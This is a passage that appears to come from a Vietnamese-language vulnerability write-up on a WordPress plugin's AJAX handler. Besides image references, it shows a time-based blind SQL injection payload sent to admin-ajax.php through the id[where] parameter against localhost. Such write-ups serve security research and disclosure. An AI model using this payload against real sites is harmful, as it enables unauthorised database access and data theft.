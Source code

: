 ![Image 27](../assets/ManhPost/post1/img27.png)

  - với tham số **$args[‘where’]**:

payload:
```http
http://localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]=1%20AND%20IF(%201=1,%20(select%201%20from%20(select%20(sleep%20(10)))%20as%20tmp),%201%20)
```
![Image 28](../assets/ManhPost/post1/img28.png)
